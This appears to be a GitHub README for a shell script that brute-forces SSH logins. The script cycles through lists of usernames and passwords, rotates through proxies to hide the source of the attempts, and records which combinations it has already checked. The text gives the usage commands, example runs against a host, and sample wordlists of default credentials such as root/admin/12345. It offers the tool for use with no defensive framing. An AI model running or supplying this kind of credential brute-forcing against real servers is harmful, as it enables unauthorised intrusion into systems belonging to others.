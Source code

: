 # SSH password bruteforcer with proxies

Tries every combination of username and password, uses random proxy from given list and saves checked combinations for future runs.

```bash
./ssh_password_brute_force.sh <host_address> <usernames_filepath> <passwords_filepath> <proxies_filepath> <checked_combos_save_to_dest> <checked_combos_filepath>
```

If `checked_combos_filepath` is set then `checked_combos_save_to_dest` will be ignored.

## Examples

```bash
./ssh_password_brute_force.sh 0.0.0.0 ~/Downloads/usernames.txt ~/Downloads/passwords.txt ~/Downloads/proxies.txt ./run
```

```bash
./ssh_password_brute_force.sh 0.0.0.0 ~/Downloads/usernames.txt ~/Downloads/passwords.txt ~/Downloads/proxies.txt ./run ~/Downloads/already_checked_combos.txt
```

## Files samples

usernames_filepath:
```txt
root
admin
```

passwords_filepath:
```txt
root
admin
12345
54321
```

proxies_filepath:
```txt
1.1.1.1:8080:login:password
2.2.2.2:8181:login:password
```

checked_combos_filepath:
```txt
root:root
root:admin
root:12345
root:54321
root:
admin:root
admin:admin
admin:12345
admin:54321
admin:
:root
:admin
:12345
:54321
:
```
